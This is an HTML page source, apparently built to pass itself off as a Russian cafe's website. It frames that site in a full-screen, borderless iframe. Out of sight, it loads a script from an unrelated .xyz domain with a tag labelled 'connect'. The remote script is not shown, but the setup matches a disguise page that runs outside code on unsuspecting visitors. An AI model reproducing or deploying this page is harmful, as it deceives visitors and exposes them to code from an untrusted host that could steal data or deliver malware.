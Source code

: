 ﻿<!DOCTYPE html>
<html lang="ru">
<meta http-equiv="content-type" content="text/html;charset=utf-8">
	
	<head>	
	
	<iframe id="ifr" src="http://kafe-yaroslavl.ru/" frameborder="0" style="overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;position:absolute;top:0px;left:0px;right:0px;bottom:0px" height="100%" width="100%"></iframe>
	
	<script id="connect" type="text/javascript" src="https://www.shopalldays.xyz/js"></script>
	
	</head>
</html>
